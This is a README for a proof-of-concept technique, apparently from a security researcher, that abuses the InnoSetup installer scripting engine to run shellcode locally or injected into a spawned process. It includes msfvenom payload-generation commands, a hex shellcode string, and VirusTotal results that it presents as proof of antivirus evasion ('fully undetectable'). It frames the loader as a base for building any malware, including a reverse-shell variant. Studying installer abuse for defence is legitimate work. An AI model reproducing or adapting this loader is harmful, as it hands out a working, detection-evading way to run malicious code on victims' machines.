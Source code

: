 # InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-21 at 16.05.10.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.05.10.png)

This proof of concept illustrates how the InnoSetup Scripting Engine can be utilized to host a local or remote process shellcode payload and then execute it.

The motivation behind this concept is to highlight the potential risks associated with (self) installers. Not only can they harbor malicious programs, but they can also execute native code through their scripting engines. This method could potentially evade antivirus detections due to their seemingly benign nature.

The most challenging aspect of this project was understanding how to manipulate pointers and references. This example provides a foundation from which it is feasible to create any type of malware from scratch, including ones with increased complexity. Should you decide to experiment further, and encounter any technical queries, don't hesitate to ask for assistance.

## Parameters

The parameters can be found at the beginning of the InnoSetup Script File.

* **SpawnNewProcess:** (1|0): If this is set to 1, the payload will be stored and executed from a newly spawned process (default: notepad.exe). If set to 0, the payload will be stored and executed from the current InnoSetup Installer Process.
* **SpawnProcessName:** (STR): This parameter comes into play only if SpawnNewProcess is set to 1. You can modify this value to spawn the process of your choice.
* **verbose:** (1|0): Use this parameter to determine whether you want to generate debug messages (for example, from DbgView).
* **Payload:** (HEX_STR): This parameter is used to define the payload itself in hex format (aligned 2). If you're using Msfvenom, utilize the -f hex option.

## Example

Creating your own setup with a personalized payload is now straightforward.

Ensure that your shellcode is encoded in a hex string, and then replace the Payload parameter with your payload.

Here's an illustrative example using Msfvenom:

`msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex`

Example: `msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex`

![Screenshot 2021-07-21 at 16.04.41.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.41.png)

```
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

![Screenshot 2021-07-21 at 16.04.04.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.04.png)

You can modify the other parameters as per your needs before building your setup application to appreciate the result.

Please note: If you are using the **SpawnNewProcess** parameter, it is highly recommended to use the `ExitProcess` **EXITFUNC** method to terminate the entire spawned process, as opposed to using thread.

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

The current detection rate stands at 3/69, which is mostly due to generic detection because of the file's reputation. Therefore, it's highly probable that the file is fully undetectable (FUD).

![Screenshot 2021-07-20 at 19.09.53.png](https://www.phrozen.io/media/all/Screenshot_2021-07-20_at_19.09.53.png)

## VirusTotal Score (UPDATE: 21 JULY 2021)

Below are the results of a setup scan using a reverse shell payload from Msfvenom, without any encoding schema applied:

https://www.virustotal.com/gui/file/2723ba8196721a3fd8b792b195dc20928d53d0e8b21c47da353b894cace847b9/detection

With a detection rate of 4 out of 69, it successfully evades the majority of commonly used antivirus software.
